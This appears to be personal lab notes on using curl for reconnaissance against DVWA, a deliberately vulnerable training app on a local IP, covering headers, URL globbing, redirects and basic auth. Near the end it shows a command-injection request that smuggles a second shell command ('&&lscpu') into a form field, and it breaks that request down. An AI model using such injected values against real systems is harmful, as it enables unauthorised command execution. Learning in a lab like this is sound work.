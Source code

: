 ```yaml
---
title: "Curlacking"
date: 2025-01-09T16:06:04+01:00
draft: false
tags: ["tools", "Web", "featured"]
---
```


Launched 1998, curl is a tool for transferring data from or to a server using URLs, with over 230 command line options. This briefly shows some of the ways to use it for reconnosince. 



curl -I http://192.168.10.123/dvwa/
	-I just returns the head


curl https://example.com/[1-9].html


curl https://example.com/[1-20:3].html - o save_#1.html (will save )


curl --verbose https://example.com/[a-z].html #(very important for troubleshooting)

curl  -L http://192.168.10.123/dvwa/vulnerabilities/fi/?page=include.php
	-L will show the redirect

Without:![[Screenshot 2025-01-09 at 5.24.52 pm.png]]

With:
![[Screenshot 2025-01-09 at 5.25.33 pm.png]]
man 
curl -u user:password
![[Screenshot 2025-01-23 at 4.59.52 pm.png]]


After quite a few attempts and a small bit of AI help: 
	curl -vv -b "security=low; PHPSESSID=ungj5i2cirq9jvfrsjju273l53" --data "ip=192.168.10.123%26%26lscpu&Submit=Submit" http://192.168.10.123/dvwa/vulnerabilities/exec/

Lets break this down... 

- curl -----(http swiss army knife)
- -vv -----very verbose
- -b ----set-cookie
- "security=low; PHPSESSID=ungj5i2cirq9jvfrsjju273l53" ---- cookie
- --data ------ includes url-encoded injection payload
- "ip=192.168.10.123%26%26lscpu&Submit=Submit" ------ payload
- http://192.168.10.123/dvwa/vulnerabilities/exec/


![[Screenshot 2025-01-24 at 7.28.53 am.png]]

![[Screenshot 2025-01-24 at 7.28.13 am.png]]

Resources:

https://www.youtube.com/watch?v=I6id1Y0YuNk